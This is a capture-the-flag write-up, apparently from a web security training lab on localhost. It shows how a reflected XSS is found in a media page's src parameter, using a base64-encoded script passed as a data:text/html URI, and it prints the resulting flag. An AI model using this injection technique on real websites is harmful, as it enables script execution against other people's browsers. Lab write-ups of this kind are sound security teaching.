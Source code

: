 ## [Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)

TODO: HTML Injection?

The index page has a weirdly loaded image http://localhost:8080/index.php?page=media&src=nsa.

Visiting the page and changing the `src` query parameter shows an HTML `<object>` tag, with a `data` attribute which corresponds to `src`. For example, visiting `http://localhost:8080/index.php?page=media&src=ooga` yields `<object data="ooga">`.

We start by trying an HTML injection with `src=<script>confirm("ooga")</script>`, which wasn't executed.

We managed to bypass the URL encoding with base64, and do an XSS attack.

```console
$ echo -n '<script>confirm("ooga")</script>' | base64
PHNjcmlwdD5jb25maXJtKCJvb2dhIik8L3NjcmlwdD4=
```

this gives us a double wrong answer as http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==

but putting something in the alert

```
➜  darklyProject git:(master) ✗ echo '<script>alert("ok")</script>' | base64
PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo=
```

gets us the flag

```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
